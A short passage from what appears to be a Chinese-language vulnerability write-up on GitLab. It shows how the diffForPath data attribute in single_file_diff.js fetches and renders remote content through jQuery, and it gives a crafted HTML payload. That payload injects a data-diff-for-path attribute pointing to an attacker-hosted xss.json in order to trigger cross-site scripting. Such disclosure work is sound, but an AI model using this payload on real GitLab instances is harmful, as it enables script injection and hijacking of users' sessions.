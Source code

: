    *app/assets/javascripts/single_file_diff.js*

    ![single_file_diff](single_file_diff.png)

    可以看到，diffForPath是data属性，该gadget读取该属性为链接，并且下载内容，直接通过jquery进行渲染。

12. 因此构造payload为：

    ```
    <pre lang='" data-diff-for-path="http://10.206.44.19:8830/gnuwget/Wget2/-/raw/master/xss.json"  '><code lang='wavedrom'></code></pre>
    ```
    
    其中 *http://10.206.44.19:8830/gnuwget/Wget2/-/raw/master/xss.json* 是我们自己上传的json文件，包含了xss payload。
    
    ![Krokixss](Krokixss.png)
